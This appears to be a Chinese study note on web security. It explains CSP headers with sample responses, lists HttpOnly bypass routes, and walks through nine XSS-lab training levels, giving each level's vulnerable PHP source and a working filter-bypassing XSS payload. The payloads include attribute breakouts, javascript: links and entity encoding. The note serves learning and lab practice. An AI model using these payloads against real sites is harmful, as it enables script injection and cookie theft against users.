

## CSP

内容安全策略是一种可信白名单机制，来限制网站中是否可以包含某来源内容。

该制度明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单，

它的实现和执行全部由浏览器完成，开发者只需提供配置。

禁止加载外域代码，防止复杂的攻击逻辑。

禁止外域提交，网站被攻击后，用户的数据不会泄露到外域。

禁止内联脚本执行（规则较严格，目前发现 GitHub 使用）。

禁止未授权的脚本执行（新特性，Google Map 移动版在使用）。

参考 https://xz.aliyun.com/news/11816

1. 
```
   #只允许加载本地源图片：
	header("Content-Security-Policy:img-src 'self' ");
	
返回数据包：
	
HTTP/1.1 200 OK
Date: Mon, 12 Jan 2026 14:11:03 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Content-Security-Policy: img-src 'self'
Set-Cookie: name=xiaodi
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 415
```
2. 
```
//它允许加载来自任何域的JS代码
header("Content-Security-Policy:default-src 'self'; script-src * ");

返回数据包：

HTTP/1.1 200 OK
Date: Mon, 12 Jan 2026 14:11:42 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Content-Security-Policy: default-src 'self'; script-src *
Set-Cookie: name=xiaodi
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
```
3. 
```
//只允许加载当前域的JS代码。
header("Content-Security-Policy: default-src 'self'; script-src 'self' ");

返回数据包：

HTTP/1.1 200 OK
Date: Mon, 12 Jan 2026 14:12:54 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Content-Security-Policy: default-src 'self'; script-src 'self'
Set-Cookie: name=xiaodi
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 415
```

```
//只允许加载当前域的JS代码 还限制目录
header("Content-Security-Policy:default-src 'self';script-src http://192.168.1.4:82/63/static/");

返回数据包：

HTTP/1.1 200 OK
Date: Mon, 12 Jan 2026 14:14:57 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
X-Powered-By: PHP/7.3.4
Content-Security-Policy: default-src 'self';script-src http://192.168.1.4:82/63/static/
Set-Cookie: name=xiaodi
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 415
```

## httponly

一个可以在设置Cookie时使用的标记;当一个Cookie被标记为HttpOnly时，JavaScript无法访问该Cookie，只能通过HTTP（或HTTPS）协议传输。
这一特性有助于防止跨站脚本攻击（XSS），因为攻击者无法通过JavaScript代码窃取存储在 HttpOnly Cookie中的敏感信息



可以在浏览器内存中看到httponly是否开启

### 绕过

(1) CVE-2012-0053

(2) PHPINFO页面

(3) Flash/Java

## WAF和过滤(XSS-lab)

第一关
```
<?php
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```

poc

```
http://127.0.0.1:9991/level1.php?name=%3Cscript%3Ealert(1)%3C?script%3E
```

第二关
```
<?php
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
</form>
</center>';
?>
```

poc

```
1"><script>alert(1)</script><"
```

第三关

```
<?php
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>    
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```

poc

```
' onfocus='javascript:alert(1)'
```

第四关

```
<?php
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center></center>
<?php
echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
?>
```

poc

```
"onfocus="javascript:alert(1)" "
```

第五关

```
<?php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center></center>
<?php
echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
?>
```

poc 

```
"> <a href=javascript:alert(1)>xxx</a>
```

第六关

```
<?php
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center></center>
<?php
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
```

poc

```
"> <sCript>alert()</sCript> <"
```

第七关

```
<?php
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center></center>
<?php
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
```

poc

```
"> <a hrehreff=javascript:alert()>x</a> <"
```

第八关

```
<?php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

poc

```
利用Unicode编码
&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0029
```

第九关

```
?php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```

```
利用Unicode编码（内容检测）
&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0029;('http://')
```

https://blog.csdn.net/l2872253606/article/details/125638898

#### 工具项目

